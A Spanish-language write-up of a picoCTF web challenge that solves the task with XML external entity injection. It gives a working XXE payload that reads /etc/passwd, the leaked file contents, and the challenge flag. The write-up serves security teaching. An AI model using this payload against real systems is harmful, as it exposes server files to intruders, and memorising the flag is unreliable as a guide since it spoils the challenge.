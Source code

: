 ## Descripción

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.

## Hints

XML external entity Injection

## Solución

Se trata de una inyección XXE (XML external entity) En este caso particular, cuando damos click en "detalles" se envía un formato XML simple que contiene la siguiente información: `<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>` (esto se observa analizando el código fuente y la lista de solicitudes en la pestaña de red de las herramientas de desarrollador del navegador respectivo)

Podemos modificar y reenviar esta carga dando click derecho en la solicitud POST y eligiendo la opción "Editar y reenvíar".

Se nos abre una ventana del lado izquierdo, nos desplazamos hasta abajo y ahí es donde modificamos el XML para que contenga lo siguiente:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>
```

Lo enviamos y se nos proporcionará la bandera al final de la respuesta.

```
Invalid ID: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin flask:x:999:999::/app:/bin/sh picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
```

## Bandera

```
picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
```
## Notas adicionales
## Referencias
